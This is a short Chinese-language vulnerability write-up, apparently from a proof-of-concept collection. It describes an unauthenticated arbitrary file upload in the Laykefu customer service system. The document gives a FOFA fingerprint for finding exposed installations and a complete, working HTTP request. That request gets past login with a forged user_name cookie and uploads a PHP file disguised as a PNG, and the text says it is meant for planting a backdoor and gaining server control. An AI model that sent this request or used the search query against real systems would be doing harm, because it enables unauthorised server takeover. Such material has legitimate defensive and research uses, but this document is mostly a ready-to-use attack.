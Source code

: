 ## Laykefu客服系统任意文件上传漏洞



Laykefu客服系统/admin/users/upavatar.html接口处存在文件上传漏洞，而且当请求中Cookie中的”user_name“不为空时即可绕过登录系统后台，未经身份验证的攻击者可利用此问题，上传后门文件，获取服务器权限。

## fofa



```
icon_hash="-334624619"
```

​    

## poc



```
POST /admin/users/upavatar.html HTTP/1.1
Host: xxx.xxx.xxx
Content-Length: 194
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36 Edg/107.0.1418.26
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3OCVBiwBVsNuB2kR
Origin: http://xxx.xxx.xxx
Referer: http://xxx.xxx.xxx/admin/users/edituser/id/1.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: user_name=1; user_id=3
sec-ch-ua-platform: "Windows"
sec-ch-ua: "Edge";v="107", "Chromium";v="107", "Not=A?Brand";v="24"
sec-ch-ua-mobile: ?0
Connection: close

------WebKitFormBoundary3OCVBiwBVsNuB2kR
Content-Disposition: form-data; name="file"; filename="1.php"
Content-Type: image/png

<?php phpinfo();?>
------WebKitFormBoundary3OCVBiwBVsNuB2kR--
```

![image-20240925214251015](C:\Users\18484\AppData\Roaming\Typora\typora-user-images\image-20240925214251015.png)

